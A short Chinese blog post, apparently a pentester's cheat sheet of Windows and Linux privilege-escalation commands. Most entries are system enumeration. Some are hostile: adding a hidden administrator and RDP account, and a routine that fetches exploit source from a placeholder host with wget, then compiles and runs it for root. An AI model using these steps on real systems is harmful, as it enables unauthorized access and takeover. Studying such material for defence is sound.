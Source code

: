 ```yaml
---
layout: post
title: "内网提权命令"
date: 2018-09-07
category: 安全
tags: 安全
---
```


## Windows基础命令

	net user xx

	query user #查看用户登录情况

	whoami #当前用户权限

	systeminfo #查看当前系统版本与补丁信息

	net user xx 123456 /add #添加用户

	net localgroup administrators xx /add #添加到管理员组

	net localgroup "Remote Desktop Users" xx /add #如远程桌面连接不上那么添加远程桌面组

	ipconfig #查看本机ip信息，可加 /all 参数

	netstat -ano #查看端口情况

	dir c:\ #查看目录

	type c:\Users\admin\Desktop\1.txt #查看指定位置文件内容，一般为文本文件

	echo 字符串>2.txt #写入文本到文件。特殊字符如<>等前面加^

	copy 1.txt 3.php #复制文件

	rename d:\2.txt mspaint.bat #将某个路径下的文件重命名

	tasklist #查看所有进程占用的端口

	taskkill /im xx.ext /f #强制结束指定进程 如 taskkill /im QQMusic.exe /f


## Windows基础提权命令

	查看系统信息
	systeminfo|findstr /B/C:"OS名称"/C:"OS版本"

	主机名
	Hostname

	环境变量
	Set

	查看用户信息
	Net user
	Net1 user

	查看服务pid号
	Tasklist/svc|find "TermService"
	netstat -ano|find "1488"

	查看系统名
	wmic os get caption

	查看补丁信息
	wmic dfe get Description,HotFixID,InstalledOn|findstr /C:"KB4013389" /C:"KB958644"

	查看当前安装程序
	wmic product get name,version

## Linux基础命令

	查看系统版本信息
		cat /etc/issue
		cat /etc/*-release
	查看内核版本
		uname -a



## Linux提权基础命令

	基础命令：
	uname -an
	id
	pwd
	cat /etc/issue

	套路：
	wget http://exp/exp.c
	gcc -o exp exp.c
	chmod +x exp
	./exp
	...到root

## LINK

[【权限提升】Linux 提权常用命令集](https://zhuanlan.zhihu.com/p/42358253)  
[SecWikiGithub](https://github.com/SecWiki)  
[SecWiki](https://www.sec-wiki.com/)  
[Exploit-db本地提权](https://www.exploit-db.com/local/)  
[Windows提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)  
[Linux提权漏洞集合](https://github.com/SecWiki/linux-kernel-exploits)  
[Mac-OS提权漏洞集合](https://github.com/SecWiki/macos-kernel-exploits)  





